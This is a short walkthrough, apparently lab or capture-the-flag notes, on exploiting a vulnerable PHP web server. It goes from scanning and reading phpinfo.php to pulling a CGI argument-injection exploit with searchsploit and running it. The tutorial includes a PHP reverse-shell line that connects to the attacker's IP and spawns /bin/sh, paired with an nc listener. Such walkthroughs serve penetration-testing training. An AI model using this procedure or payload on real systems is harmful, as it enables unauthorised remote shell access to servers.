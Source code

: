 
### How to exploit PHP in a web server ?

1. Perform a `-sV` and a `-sC` scan on port 80 of the target.

2. Since the target is running a web server, we'll visit it in our browser for better insight. We cannot tell the PHP version running on the target at first sight. 

3. Sometimes diagnostics or config files pertinent to PHP are left over, one of them is `phpinfo.php` file.  
```
<target-ip>/phpinfo.php
```
- We can figure out the PHP version from this page. 

4. Once we get the PHP version, we can look it up using `searchsploit` to find a relevant exploit. 

5. In our case, the PHP version is vulnerable to CGI Argument Injection. We'll copy the exploit code to our `pwd` using `searchsploit`. 
```
searchsploit -m <EDBID> 
```

6. This exploit code contains a variable `pwn_code` which stores the code which'll be executed when the exploit is run. We'll replace it's value with a reverse shell code. 
```
$sock=fsockopen("IP",1234);exec("/bin/sh -i <&4 >&4 2>&4");
```
- This PHP reverse shell connect to our listener. Replace `IP` with your local IP.
- The code should be in the format `"""<? code ?>"""` to preserve the syntax. 

7. Setup a `nc` listener on the port set in the exploit code. 

8. Now we will run the modified exploit code. 
```
python2 18836.py <target-ip> 80
```

9. This will give us a reverse shell access. 
